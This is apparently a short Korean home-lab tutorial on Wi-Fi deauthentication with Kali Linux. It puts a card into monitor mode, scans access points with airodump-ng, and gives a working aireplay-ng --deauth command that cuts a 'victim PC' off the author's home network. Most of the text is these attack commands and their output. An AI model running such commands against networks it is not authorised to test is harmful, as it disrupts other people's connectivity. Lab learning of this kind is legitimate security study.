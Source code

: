 ## 준비물

KALI LINUX

무선랜 (모니터 모드 지원)


<img src="https://github.com/user-attachments/assets/07811869-5c47-43fa-b1cd-816635423339" width="300">

칼리리눅스에 무선랜을 연결한다.

<br>

ifconfig를 통해 무선랜 이름을 확인한다⇒ wlan0

```php
$ ifconfig
...

wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
        ether ce:97:e5:22:f7:b7  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

<br>

### 패킷 캡처 - 모니터 모드로 전환

```php
$ sudo ifconfig wlan0 down  
$ sudo iwconfig wlan0 mode monitor  
$ sudo ifconfig wlan0 up  
```

<br>

### 네트워크 스캔 (주변 AP)

```
$ sudo airodump-ng wlan0 
```

<img src="https://github.com/user-attachments/assets/da27c35c-f59d-4fac-84fc-8afa55980324" width="500">

우리집 와파의 MAC주소를 확인할 수 있다.

<br>


피해 대상인 PC의 CMD창에서 `ipconfig /all`  ⇒ 물리적 주소 확인

```php
무선 LAN 어댑터 Wi-Fi:

   연결별 DNS 접미사. . . . :
   설명. . . . . . . . . . . . : Intel(R) Wi-Fi 6E AX211 160MHz
   물리적 주소 . . . . . . . . : [🍮여기]
   DHCP 사용 . . . . . . . . . : 예
   자동 구성 사용. . . . . . . : 예
   링크-로컬 IPv6 주소 . . . . : .
   IPv4 주소 . . . . . . . . . : .
   서브넷 마스크 . . . . . . . : 255.255.255.0
   임대 시작 날짜. . . . . . . : 2024년 8월 17일 토요일 오후 9:55:35
   임대 만료 날짜. . . . . . . : 2024년 8월 18일 일요일 오전 1:55:55
   기본 게이트웨이 . . . . . . : 192.168.0.1
   DHCP 서버 . . . . . . . . . : 192.168.0.1
   ...
```

<br>

### 연결 끊기 (컴퓨터)

```
aireplay-ng --deauth [패킷 수. 보통 100000] -a [AP MAC 주소] -c [클라이언트 MAC 주소] [인터페이스 이름]
```

<img src="https://github.com/user-attachments/assets/a07fa437-d4ea-4091-ad1e-cbeee02ba28e" width="500">

명령을 실행하면 피해PC의 WiFi 연결이 끊긴다. 


<br>

모니터모드 해제

```php
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed
sudo ifconfig wlan0 up
```

